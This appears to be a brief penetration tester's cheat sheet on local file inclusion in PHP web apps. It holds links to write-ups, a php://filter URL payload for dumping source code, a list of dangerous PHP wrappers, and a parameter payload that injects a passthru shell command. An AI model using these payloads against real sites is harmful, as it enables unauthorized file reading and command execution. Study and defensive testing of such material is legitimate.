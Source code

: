 #

https://medium.com/@Aptive/local-file-inclusion-lfi-web-application-penetration-testing-cc9dc8dd3601

## php filter

https://www.idontplaydarts.com/2011/02/using-php-filter-for-local-file-inclusion/

```
http://example.com/?m=php://filter/convert.base64-encode/resource=index
```

## wrappers

see php wrappers

dangerous : 

- data
- php
- file, http, ftp
- expect <-- cmd injection

https://github.com/s-n-t/presentations/blob/master/us-18-Thomas-It's-A-PHP-Unserialization-Vulnerability-Jim-But-Not-As-We-Know-It.pdf

## evasion

https://security.stackexchange.com/questions/48879/why-does-directory-traversal-attack-c0af-work

## dumb things

Sometimes, some this work : 

```
/index.php?page=about'.passthru('ping%20-c%203%20192.168.49.160').'
```
